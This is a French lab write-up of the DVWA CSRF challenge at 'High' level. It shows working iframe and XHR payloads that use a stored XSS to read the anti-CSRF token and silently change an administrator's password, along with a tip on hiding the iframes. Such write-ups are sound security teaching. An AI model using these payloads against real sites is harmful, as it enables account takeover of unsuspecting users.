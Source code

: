 # Niveau "High"

L’analyse du formulaire indique la présence d’un champ caché nommé "user\_token" (il s'agit d'un jeton anti-CSRF). La valeur de ce champ est régénérée pour chaque requête :

![](../../../../.gitbook/assets/0c0892194f080f693dd38eeb63b57a68.png)

La requête effectuée lors du changement du mot de passe est de type **`GET`** :

![](../../../../.gitbook/assets/0ac49605cff888b7999e10835c367deb.png)

Les premiers tests à faire sont sans doute de vérifier la bonne implémentation du jeton. Que se passe t'il en cas de champ vide ou si le champ n'est pas présent ? Ici l'implémentation semble correcte et le jeton est donc obligatoire :

![](../../../../.gitbook/assets/3e8676642a89f875399827af3216b0c4.png)



Une faille XSS permet de contourner une protection basée sur un jeton anti-CSRF (qu'il soit per-request ou per-session). Cela se fait en deux étapes :

* Une première requête va permettre de récupérer un jeton CSRF présent sur la page du challenge
* Une seconde requête, comprenant le jeton fraîchement récupéré, va modifier le mot de passe de la victime



**Exploitation via des iframes**

J'affiche une première `<iframe>` qui va afficher la page du challenge afin de récupérer le jeton. La mécanique de récupération se fait grâce à la méthode `readFrame1()` :

```markup
<iframe src="http://192.168.56.203:8080/vulnerabilities/csrf" onload="readFrame1()" id="frame1"></iframe>
```

Voici la fonction `readFrame1()` (hébergée dans un fichier nommé "csrf.js" sur un serveur malicieux) :

{% code title="csrf.js" %}
```javascript
function readFrame() {
  var token='&user_token=' + document.getElementById("frame1").contentDocument.getElementsByName("user_token")[0].value;
  var link = "http://192.168.56.203:8080/vulnerabilities/csrf?password_new=hacked&password_conf=hacked&Change=Change"+token;
  document.getElementById("frame2").src=link;
}
```
{% endcode %}

La variable `token` va contenir la chaîne suivante : `"&user_token=jeton_csrf_récupérée"`. J'assigne à une seconde `<iframe>` une URL représentant la requête **`GET`** effectuant le changement de mot de passe.

Cette `<iframe>` sera appelée de cette façon :

```markup
<iframe id="frame2"></iframe>
```

Ci-dessous la payload ainsi que son affichage lors de l'exécution. Bien penser à injecter la payload en mode "Low" mais de repasser en mode "High" pour son exploitation :

![](<../../../../.gitbook/assets/3b6e8a0ec33f5961bef8be1b5f820505 (1).png>)

{% hint style="info" %}
Afin de rendre l'attaque plus discrète, il est possible de ne pas afficher les `<iframe>` grâce au style CSS `style="display:none"`
{% endhint %}

Une fois que l'administrateur visitera la page du challenge XSS, son mot de passe sera changé :

![](../../../../.gitbook/assets/1fb2b3663d21dad270b6c81e9e61e79c.png)

**Exploitation via des requêtes XHR**

Un peu plus moderne, il est possible d'effectuer la même attaque en utilisant deux requêtes **`XHR`**. La première va permettre de récupérer le jeton :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
        var token = xhr.response.getElementsByName('user_token')[0].value;
        
        // Exécuter Requête 2, changement de mot de passe
};

xhr.send();
```

Et la seconde, d'effectuer le changement de mot de passe une fois la première requête exécutée (et le jeton récupéré) :

> ```javascript
>    // Requête 2
>    var xhr2 = new XMLHttpRequest();
>    xhr2.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + token, true);
>    xhr2.send();
> ```

La mise en place de la payload s'effectue toujours en se servant de la vulnérabilité XSS en niveau "Low" :

![](../../../../.gitbook/assets/7cf8487e2619f973ab30e38f5ea8f209.png)

Lorsque la victime exécutera la payload XSS cela va déclencher l'attaque CSRF (repasser en "High") :

![](../../../../.gitbook/assets/8016744e58ba30e8ff427294598eacfc.png)

Le mot de passe de l'administrateur a bien été changé suite à sa visite (du challenge XSS) :

![](../../../../.gitbook/assets/94ceb456695bfa0da35e85c676d73400.png)
